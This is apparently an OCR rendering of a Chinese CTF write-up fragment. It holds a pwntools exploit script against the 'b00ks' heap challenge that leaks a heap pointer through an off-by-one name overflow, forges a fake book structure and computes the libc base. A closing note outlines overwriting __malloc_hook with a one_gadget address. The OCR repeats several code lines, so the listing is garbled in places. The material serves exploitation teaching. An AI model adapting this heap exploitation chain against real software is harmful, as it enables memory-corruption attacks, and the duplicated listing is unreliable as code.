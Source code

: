 ```python
 27     p.sendline(index)
 28     log.info(p.recvuntil(":"))
 29     p.sendline(content)
 30 
 31 def show():
 32     p.sendline("4")
 33 
 34 def nameedit():
 35     p.sendline("5")
 36     p.recvuntil("name: ")
 37     p.sendline("1"*32)
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 37     p.sendline("1"*32)
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 44 p.sendlineafter("name: ","a"*32)
 45 pause()#1
 46 create(48,"HHHHHHH",200,(""))  #1
 47 pause()#2
 48 show()
 49 
 50 p.recvuntil("a"*32)
 51 book1=u64(p.recv(6)+'\x00'*2)
 52 log.success("book1 -> {:#x}".format(book1))
 53 p.recvuntil(">")
 54 edit("1","1"*0xa0+p64(1)+p64(book1+0x60)+p64(book1+0x60)+p64(0xc8))
 55 nameedit()
 56 pause()
 57 #gdb.attach(p,"b 0x555555554000+0x1234")
 58 ############1#############
 59 create(16,"AAAAAA",0x21000,"BBBBB")
 60 #############2###########
 61 pause()
 62 show()
 63 libc.address=u64(p.recvuntil("\x7f")[-6: ] + '\0\0')-0x5be010
 64 success("libc -> {:#x}".format(libc.address))
```

当我们获取基址后，我们的思路就是，edit book1，把我们的book2的discription的地址改了，改成__malloc_hook，然后edit book2把他们改成one_gadget的地址,这里不再做出具体的内容，可以自己尝试。
